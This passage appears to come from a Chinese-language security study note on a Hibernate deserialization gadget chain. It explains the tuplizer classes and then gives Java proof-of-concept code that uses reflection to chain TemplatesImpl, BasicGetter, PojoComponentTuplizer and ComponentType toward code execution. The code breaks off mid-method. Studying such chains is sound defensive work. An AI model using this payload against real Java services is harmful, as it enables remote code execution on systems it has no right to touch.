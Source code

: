 AbstractComponentTuplizer 有两个子类，一个是 PojoComponentTuplizer，一个是 DynamicMapComponentTuplizer，这对应着 Hibernate 的实体对象的类型，即 pojo 和 dynamic-map。pojo 代表将 Hibernate 类型映射为 Java 实体类，而 dynamic-map 将映射为 Map 对象。

这里选择 PojoComponentTuplizer 类，他的 `getPropertyValues()` 方法会调用其父类的此方法。

![image-20230331141454519](images/8.png)

## 漏洞复现

```
package Unser.Hibernate;

import Unser.Rome.GetTemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.hibernate.engine.spi.TypedValue;
import org.hibernate.property.BasicPropertyAccessor;
import org.hibernate.tuple.component.PojoComponentTuplizer;
import org.hibernate.type.ComponentType;
import sun.reflect.ReflectionFactory;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class Payload {
    public static <T> T createWithoutConstructor(Class clazz) throws Exception{
        Constructor constructor = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz,Object.class.getDeclaredConstructor());
        constructor.setAccessible(true);
        return (T)constructor.newInstance();
    }
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = GetTemplatesImpl.getTemplatesImpl();
        Method method = templates.getClass().getDeclaredMethod("getOutputProperties");
        Class basicGetterclass = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
        Constructor constructor = basicGetterclass.getDeclaredConstructor(Class.class, Method.class,String.class);
        constructor.setAccessible(true);
        BasicPropertyAccessor.BasicGetter basicGetter = (BasicPropertyAccessor.BasicGetter) constructor.newInstance(Templates.class,method,"OutputProperties");

        Class clazz = Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer");
        PojoComponentTuplizer pojoComponentTuplizer = createWithoutConstructor(clazz);
        Class clazz1 = Class.forName("org.hibernate.tuple.component.AbstractComponentTuplizer");
        Field field0 = clazz1.getDeclaredField("getters");
        field0.setAccessible(true);
        BasicPropertyAccessor.BasicGetter[] basicGetters = {basicGetter};
        field0.set(pojoComponentTuplizer,basicGetters);

        Class clazz2 = Class.forName("org.hibernate.type.ComponentType");
        ComponentType componentType = createWithoutConstructor(clazz2);
        Field field1 = componentType.getClass().getDeclaredField("componentTuplizer");
        field1.setAccessible(true);
        field1.set(componentType,pojoComponentTuplizer);
        Field field2 = componentType.getClass().getDeclaredField("propertySpan");
        field2.setAccessible(true);
        field2.set(componentType,1);
```